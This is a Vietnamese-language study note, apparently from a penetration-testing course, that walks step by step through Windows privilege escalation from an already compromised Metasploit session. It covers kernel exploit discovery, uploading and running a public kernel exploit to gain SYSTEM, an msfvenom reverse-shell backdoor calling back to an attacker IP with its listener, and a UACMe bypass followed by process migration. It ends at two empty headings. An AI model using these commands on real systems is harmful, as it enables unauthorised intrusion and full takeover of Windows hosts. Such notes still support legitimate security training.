


# Windows Privilege Escalation

Leo thang đặc quyền trên Windows

## Windows Kernal Exploit

Windows chạy kernal Windows NT

Qúa trình leo thang đặc quyền gồm 2 bước chính:

-   Xác định lỗ hổng trong Kernal (cấu hình sai)
-   Tải payload execute về máy và thực thi để có được quyền cao hơn 

Tool:

-   Windows-Exploit-Suggester : detect lỗ hổng, gợi ý lỗ hổng 

-   Windows-Kernal-Exlpoits : tập hợp các exploit theo CVE

BÀI HỌC VỀ LEO THANG ĐẶC QUYỀN SẼ BẮT ĐẦU VỚI 1 SESSION ĐÃ VÀO ĐƯỢC MÁY CHỦ (CÁC PHẦN KHAI THÁC ĐỂ VÀO ĐƯỢC CẦN XEM LẠI CÁC PHẦN TRƯỚC)

Vào MSF:

`sessions` -> liệt kê session, sau đó hãy chọn sesstion

`getuid` -> xem thông tin user 

`getprivs` -> xem các quyền được sử dụng với user hiện tại

Trong 1 số trường hợp đơn giản, có thể dùng lệnh: `getsystem` để MSF tự động leo thang, nhưng ko phải lúc nào cũng thành công

Sử dụng module để liệt kê các lỗ hổng trong kernal:

`use multi/recon/local_exploit_suggester`

`set SESSION <number>` -> đặt thành session cần khai thác

`run`

-> Nó sẽ gợi ý module có thể dùng để exploit leo thang đặc quyền

### CÁCH KHAI THÁC KHÁC: 

Vào session đặc quyền thấp: `systeminfo`

-> copy thông tin nhận được cho ra 1 file -> đặt tên `win7.txt` chẳng hạn 

`cd Windows/Enum/Windows-Exploit-Suggester`

`./windows-exploit-suggester.py --update`

`./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/<path to win7.txt> `

Kho mã khai thác public: `https://github.com/SecWiki/windows-kernel-exploits` => tải mã khai thác phù hợp `.exe`

Vào lại session ở MSF ở phân quyền thấp:

`cd Temp\\`

`upload ~/Downloads/41015.exe` -> upload file exploit lên máy 

`shell` -> bật shell trên máy victim

`.\41015.exe 7` -> đợi exploit -> check lại bằng `whoami` -> `nt authority/system` -> đã leo quyền cao nhất 

## Bypassing UAC with UACMe

### UAC là gì? 

UAC - User Account Control là 1 tính năng Windows security để ngăn chặn những thay đổi trái phép thực hiện với hệ điều hành 

-> Mục tiêu phần này là bypass cơ chế này để leo lên quyền cao nhất 

UAC có nhiều level từ low -> high

`https://github.com/hfiref0x/UACME`

Điều kiện là ta có user như hình:

Thực hành:

Sau khi có được session 1 người dùng trên windows

`sysinfo` -> trả về `x86/windows` -> chạy 32 bit

`pgrep explorer` -> 2448

`migrate 2448`

`sysinfo` -> trả về `x64/windows`

`getuid`

`getprivs`

-> kiểm tra người dùng ko phải authority và chỉ có 1 vài quyền

`shell`

`net user` 

`net localgroup administrators`  -> xác định người dùng này là trong group administrator

Test có UAC

`net user <user hiện tại> password123`

-> trả về access is denied

Vào 1 tab khác: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip attacker> LPORT=1234 -f exe > backdoor.exe`

Bật 1 tab mới msf để tạo port lắng nghe:

`use multi/handler`

`set payload windows/meterpeter/reverse_tcp`

`set LHOST <ip attacker>`

`set LPORT 1234`

`run`

Trở lại cửa sổ MSF 1 (có user đặc quyền thấp):

`cd C:\\`

`mkdir Temp`

`cd Temp`

`upload backdoor.exe`

`upload /root/Desktop/tools/UACME/Akagi64.exe`

`shell`

Hiện tại chúng ta sẽ ko thể chạy `backdoor.exe` vì UAC ngăn điều này

`.\Akagi64.exe 23 C:\Temp\backdoor.exe`

-> chuyển về tab lắng nghe port

`sysinfo`, `getuid` -> vẫn tài khoản cũ chưa lên được authority

`getprivs` -> đã có nhiều quyền hơn 

`ps`

`migrate <PID có quyền authority>`

`getuid` -> đã lên authority

### Lab

## Access token impersonation

